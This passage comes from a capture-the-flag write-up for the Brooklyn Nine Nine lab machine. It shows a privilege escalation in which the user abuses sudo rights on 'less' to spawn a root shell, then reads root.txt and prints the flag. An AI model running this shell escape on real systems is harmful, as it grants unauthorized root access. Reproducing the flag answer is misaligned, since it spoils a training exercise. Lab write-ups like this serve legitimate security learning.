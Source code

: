 as we can see. **less** command is allowed to use with Sudo.

**less** : is reading command same as **cat** but **less** command can read u the file only to fill the screen. no need to read the entire file.



#GTFObins website can help is to get the root access. 

![](https://i.imgur.com/eNQYBhk.png)

we will get this

![](https://i.imgur.com/oFAeWIZ.png)

So lets we go back to jake machine

```

jake@brookly_nine_nine:/$ sudo less /etc/profile

jake@brookly_nine_nine:/$ !/bin/sh

```

first enter the first command then the second one.

and boom we got a root machine

navigate to the root directory

```

# cd /root

# ls

root.txt

# cat root.txt

-- Creator : Fsociety2006 --

Congratulations in rooting Brooklyn Nine Nine

Here is the flag: 63a9f0ea7bb98050796b649e85481845



Enjoy!!

```

the answer is ==63a9f0ea7bb98050796b649e85481845==



![](https://i.imgur.com/CM0KZ5z.png)





